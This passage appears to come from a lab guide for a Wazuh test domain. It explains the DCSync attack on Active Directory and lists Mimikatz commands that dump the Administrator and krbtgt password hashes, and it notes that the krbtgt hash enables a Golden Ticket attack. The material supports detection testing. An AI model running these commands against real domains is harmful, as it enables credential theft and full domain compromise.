 
### 💣 **1. DCSync Attack**

DCSync is an attack that threat agents utilize to impersonate a Domain Controller and perform replication with a targeted Domain Controller to extract password hashes from Active Directory. The attack can be performed both from the perspective of a user account or a computer, as long as they have the necessary permissions assigned, which are:
* **Replicating Directory Changes**
* **Replicating Directory Changes All**

**📌 Prerequisites:**

* Must be run on the **Windows 10** machine using an account with sufficient privileges (e.g., **Domain Admin** or an account with the **Replicating Directory Changes** permission).

**⚙️ Steps:**

1. **Run Mimikatz as Administrator:**

```powershell
mimikatz.exe
privilege::debug
lsadump::dcsync /domain:wazuhtest.com /user:Administrator
lsadump::dcsync /domain:wazuhtest.com /user:krbtgt
```

2. **Check for Successful Attack:**

   * If the command returns the **NTLM hash** for the **KRBTGT** account, the attack is successful.
   * This hash is a critical component for performing a **Golden Ticket** attack.

![DCSync Attack](/assets/image-4.png)